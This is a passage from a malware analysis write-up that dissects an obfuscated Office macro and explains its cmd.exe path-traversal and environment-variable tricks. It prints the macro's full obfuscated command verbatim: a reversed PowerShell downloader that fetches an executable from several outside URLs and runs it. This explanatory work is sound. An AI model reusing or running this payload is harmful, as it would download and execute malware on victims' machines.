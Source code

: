          bizczv = Log(97188184)
End Select
</pre>

We see a bunch of useless select statements. It is the consequences of obfuscation so we can ignore it. What interests us most is the line:

`ziilnp = ziilnp(Interaction.Shell(zdwrhc, vbHide))`

_Interaction.Shell_ - executes the passed command (our string). Let's take a closer look at our payload:

`c:\onjzioi\izwolr\poicwo\..\..\..\windows\system32\cmd.exe` - it avoids direct path detection to cmd.exe using Directory traversal attack.

`/c %ProgramData:~0.1%%ProgramData:~9.2%` this is passed to cmd.exe. 

`%ProgramData%` expands to `C:\ProgramData`.

`~ 0,1` - means output 1 character starting from the 0th element,  result is - `"C"`. 
`~ 9.2` - take two characters from the 9th element - `"mD"`. As a result, we got the string `"CmD"`:

![](/assets/images/ru/OfficeMalware/echo%20obfuscated%20program%20data.png)

This is one of the obfuscation methods for calling cmd.exe, along with %COMSPEC%. The rest of the line is:

`/V:ON/C"set SiQ=;'cjqhpb'=qijmnd$}}{hctac}};kaerb;'bchkzfb'=dqkzr$;hkjzjlz$ metI-ekovnI{ )00004 eg- htgnel.)hkjzjlz$ metI-teG(( fI;'jrkjik'=ciikdj$;)hkjzjlz$ ,qjcaki$(eliFdaolnwoD.irhwidj${yrt{)ujbwa$ ni qjcaki$(hcaerof;'exe.'+zbwnifi$+'\'+pmet:vne$=hkjzjlz$;'ziwmvv'=pzrifoh$;'904' = zbwnifi$;'scjmbw'=fmsqvii$;)'@'(tilpS.'41fpegeLDajCgKnc/moc.ssenisubrusoh.www//:ptth@Mw6O63Df_Cm066CcdkU7o/moc.aicizyhp.www//:ptth@j7OEo_7MhAbZp6jnHp/zt.oc.skeegt.liam//:ptth@8or1uzsdZ8vie/RXI/sedulcni-pw/moc.srevirehtybkramdnal//:ptth@R8Fd3N9UmbYBzI/ten.enoniletoh.www//:ptth'=ujbwa$;tneilCbeW.teN tcejbo-wen=irhwidj$;'imsizuu'=iijirwb$ ll%1,3-~:PMET%h%1,4-~:EMANNOISSES%r%1,5~:CILBUP%wop&&for /L %h in (657,-1,0)do set nu=!nu!!SiQ:~%h,1!&&if %h equ 0 echo !nu:~-658!| cmd"` 
